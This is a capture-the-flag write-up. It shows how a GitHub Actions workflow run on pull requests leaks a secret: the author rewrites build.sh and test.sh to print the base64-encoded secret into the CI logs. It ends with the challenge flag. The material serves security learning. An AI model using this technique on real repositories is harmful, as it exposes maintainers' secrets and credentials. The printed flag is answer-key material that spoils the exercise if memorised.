

# Fork Knife

Head over to the [challenge-2](https://github.com/OctoHigh/challenge-2-linpeiyu164) repository

Again, we can see that a workflow will be triggered upon a pull request. In particular, the secret flag is again set as an environment variable:

```
- name: Run build & tests
    id: build_and_test
    env:
    EXPECTED_OUTPUT: ${{ secrets.FLAG }}
    run: |
    /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh
```

We can try to do `echo $FLAG | base64` to leak the flag in the logs as we did in Comments by changing build.sh and test.sh.


build.sh
```
#!/bin/bash

EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Compile the C++ program
g++ -o submission submission.c

# ./submission

# ACTUAL_OUTPUT=$(cat "output.txt")

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "$EXPECTED_OUTPUT"
    # echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```

test.sh
```
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

echo "$ACTUAL_OUTPUT" | base64

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Resulting logs:



Flag: EKO{pr3v3nt_PWN_r3qu3stS}
